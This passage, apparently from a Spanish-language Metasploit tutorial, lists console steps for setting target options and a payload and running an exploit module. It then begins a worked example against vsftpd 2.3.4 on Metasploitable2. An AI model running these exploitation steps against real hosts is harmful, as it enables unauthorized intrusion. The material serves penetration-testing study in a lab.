 
#### Paso 4: Ver opciones requeridas

```bash
show options
```

Verás cosas como:

```
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
RHOST                       yes       IP de la víctima
RPORT     21                yes       Puerto FTP
```

---

#### Paso 5: Configurar variables necesarias

```bash
set RHOST 192.168.1.105
set RPORT 21
set LHOST 192.168.1.100
```

Si vas a usar un payload:

```bash
set payload cmd/unix/interact
```

---

#### Paso 6: Ejecutar el módulo

```bash
run
```

o:

```bash
exploit
```

---

### ✅ EJEMPLO COMPLETO REAL

#### 🎯 Objetivo: Explotar vsftpd 2.3.4 en una máquina vulnerable (como Metasploitable2)

---

#### Paso 1: Abrimos Metasploit

```bash
msfconsole
```

---